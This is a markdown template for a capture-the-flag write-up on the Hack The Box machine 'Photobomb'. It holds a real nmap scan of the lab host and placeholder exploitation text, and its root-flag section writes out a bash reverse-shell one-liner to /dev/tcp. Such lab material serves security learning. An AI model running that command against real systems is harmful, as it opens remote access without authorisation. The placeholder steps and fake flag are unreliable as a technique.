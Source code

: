 # Information Gathering

## IP = 10.129.222.78

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```bash
┌─[wivdos@parrot]─[~/recon/Photobomb] 
└──╼ $ nmap -sVC photobomb.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-09 23:34 BST
Nmap scan report for photobomb.htb (10.129.222.78)
Host is up (0.0087s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Photobomb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```
From the above output we can see that ports, **22** and **80** are the ports open. 


![Credentials](images/Screenshot2022-10-09233801.png)
**Figure 1:** Contains credentials to endpoints


# Exploitation  
In order to gain our initial foothold we need to blablablabla. 
**EITHER LINK TO CODE OR LINK TO CODE + CHANGED SECTION**

```python
print("[+] Exploited System!")
```


## User Flag
In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag
The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
**Figure :** ....


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [GOOGLE](https://google.co.uk)